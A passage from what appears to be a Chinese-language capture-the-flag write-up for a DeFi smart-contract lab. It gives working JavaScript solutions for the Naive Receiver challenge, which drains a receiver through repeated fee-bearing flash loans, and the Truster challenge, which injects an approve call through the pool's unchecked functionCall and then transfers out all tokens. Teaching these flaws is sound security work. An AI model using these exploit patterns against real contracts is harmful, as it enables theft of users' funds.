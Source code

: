 考虑到在`NaiveReceiverLenderPool`中，采用`FIXED_FEE`，有

```solidity
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
```

也就是说无论怎么样，都必须支付1ether的手续费用。所以我们只要借款10次，就能很轻易的掏空了。



因此，在`test/naive-receiver/naive-receiver.challenge.js`中，关键部分如下：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        for (i=0; i<10; i++){
            await pool.connect(player).flashLoan(receiver.address,"0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE",
                1,"0x");
        }
    });
```

注意，因为最后要传入bytes，所以必须加上"0x"，否则不符合格式则会报错。

<hr />

# 3. Truster

解决思路：

考虑到在`TrusterLenderPool.sol`中，闪电贷函数`flashLoan`里有两种类型的地址，`borrower`与`target`，同时还调用了`target`中的`functionCall方法`。我们实际上没有必要去在闪电贷过程中就转移所有通证，只要通过`functionCall`获取后续攻击的权限即可。

因此，在`test/truster/truster.challenge.js`中，关键部分如下：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const calldata = token.interface.encodeFunctionData(
            "approve",[player.address,TOKENS_IN_POOL]
        );

        await pool.connect(player).flashLoan(0,player.address,token.address,
            calldata);

        await token.connect(player).transferFrom(pool.address,player.address,TOKENS_IN_POOL);
    });
```

我们构造了calldata，目的是使得pool作为msg.sender主动调用token合约中的approve，并授权给player所有通证的权限。同时我们用了0个通证的闪电贷并实现了授权，成功掏空了合约中的通证。

<hr />

# 4. Side Entrance

